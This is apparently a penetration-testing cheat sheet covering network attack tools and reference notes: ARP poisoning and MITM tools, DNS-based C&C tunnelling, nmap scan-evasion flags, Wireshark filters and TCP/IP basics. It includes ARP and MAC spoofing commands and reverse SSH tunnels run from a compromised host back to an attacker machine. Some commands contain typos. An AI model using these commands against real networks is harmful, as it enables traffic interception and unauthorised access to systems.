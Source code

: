 # NETWORK

* [Spoofr](https://github.com/d4rkcat/Spoofr) - ARP poison and sniff with DNS spoofing, urlsnarf, driftnet, ferret, dsniff, sslstrip and tcpdump  
* [ProxyChains](http://proxychains.sourceforge.net/) - TCP and DNS through proxy server. HTTP and SOCKS
* arpspoof
* [Ettercap](http://ettercap.github.io/ettercap/) - suite for man in the middle attacks
* netdiscover
* [Yersinia](http://www.yersinia.net/) - network tool designed to take advantage of weaknesses in different network protocols
* [iodine](https://github.com/yarrick/iodine) - tunnel IPv4 data through a DNS server
* [dnscat2](https://github.com/iagox86/dnscat2) - encrypted C&C over DNS
* [MITMf](https://github.com/byt3bl33d3r/MITMf) - framework for MITM attacks
* [socat](http://www.dest-unreach.org/socat/) - like netcat, extended design

Discovery
---------
`netdiscover`  

DNS Cache Snooping
------------------

`nmap -sU -p 53 --script dns-cache-snoop.nse 8.8.8.8`

Wireshark
---------

Filters:
```
tcp.port==25
tcp.srcport!=53
tcp.dstport==80
ip.addr == 10.0.0.1
ip.addr != 10.0.0.1
ip.src==192.168.0.0/16
!udp
smb || dns || icmp
```

NMAP
----

`-iR` use random IP addresses  
`-iL` scan form file  
`-sT` connect scan (3-way handshake)  
`-sS` stealth scan (SYN)  
`-sA` ACK method  
`-vv` increased verbosity  
Spoof MAC: `--spoof-mac Cisco`  
Bad checksum: `--badsum`  
Source port spoof: `--source-port 53`  

* Output:  
`-oN` same as on screen  
`-oG` greppable format  
`-oX` XML format  
`-oA` all formats  

* While scanning:  
`p` packet tracing  
`v` verbosity  

TCP/IP
======

OSI Model
---------

1. Physical (cables, hubs); PDU: bit
2. Data Link (frames); PDU: frame
3. Network (packets); PDU: packet
4. Transport (TCP); PDU: segment (TCP), datagram (UDP)
5. Session (logical ports); PDU (5-7 layers): data (clear text, encrypted, compressed)
6. Presentation (ASCII)
7. Application (SMTP)

TCP Flags
---------

* CWR – Congestion Window Reduced (CWR) flag is set by the sending host to indicate that it received a TCP segment with the ECE flag set (added to header by RFC 3168).
* ECE (ECN-Echo) – indicate that the TCP peer is ECN capable during 3-way handshake (added to header by RFC 3168).
* URG – indicates that the URGent pointer field is significant
* ACK – indicates that the ACKnowledgment field is significant (Sometimes abbreviated by tcpdump as ".")
* PSH – Push function
* RST – Reset the connection (Seen on rejected connections)
* SYN – Synchronize sequence numbers (Seen on new connections)
* FIN – No more data from sender (Seen after a connection is closed)

Classes
-------

Class A: 0.0.0.0 - 127.255.255.255; Default subnet mask: 255.0.0.0; Addresses per network: 16,777,216  
Class B: 128.0.0.0 - 191.255.255.255; Defaut subnet mask: 255.255.0.0; Addresses per network: 65,536  
Class C: 192.0.0.0 - 223.255.255.255; Default subnet mask: 255.255.255.0; Addresses per network: 256  
Class D (multicast): 224.0.0.0 - 239.255.255.255  

Other
=====

* MAC address spoof: `ifconfig eth0 hw ether 00:11:22:33:44:55`  
* ARP spoof:
```
arpspoof -i eth0 192.168.0.1
arpspoof -t 10.0.0.1 10.0.0.2
arpspoof -t 10.0.0.2 10.0.0.1
```  
* View routing tables: `netstat -rn`  
* Turn off local DNS servers:
```
netsh inerface IPv4 set dnsserver "Local Area connecton" static 0.0.0.0 both
ipconfig /dlushdns
www.dnsleaktest.com
```
* Port forwarding/redirection:
```
Proxychains has a config file /etc/proxychains.conf. Don't forget to edit the port number that is used for redirection.

  ssh -f -N -R 5555:127.0.0.1:22 root@192.168.32.150

Port redirection:

  ssh root@192.168.32.122 -R 333:10.1.1.230:80

For example, 32.122 is my local kali IP. I run the above command on a compromised linux machine. 10.1.1.230:80 is what I want to see. Then once the command is run, I open up localhost:333 on my local kali and actually see what's in 10.1.1.230:80.
```
